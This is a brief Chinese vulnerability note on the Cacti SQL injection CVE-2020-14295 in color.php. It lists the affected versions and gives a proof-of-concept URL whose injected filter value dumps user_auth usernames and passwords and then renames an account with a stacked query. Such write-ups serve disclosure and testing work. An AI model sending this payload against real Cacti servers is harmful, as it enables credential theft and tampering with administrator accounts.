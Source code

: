 # Cacti SQL 注入漏洞 CVE-2020-14295

## 漏洞描述

Cacti 1.2.12 中 color.php 中存在 SQL注入漏洞，允许具有管理员权限的攻击者通过 filter 参数注入 SQL。因为产品接受堆积的查询，所以这可能导致远程命令执行。目前该漏洞 EXP 已公开。

参考链接：

- https://github.com/Cacti/cacti/issues/3622

## 漏洞影响

```
Cacti < 1.2.13
```

## 漏洞复现

poc：

```
/cacti/color.php?action=export&header=false&filter=')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+user_auth+set+username='sqli'+where+id=3;--+-
```

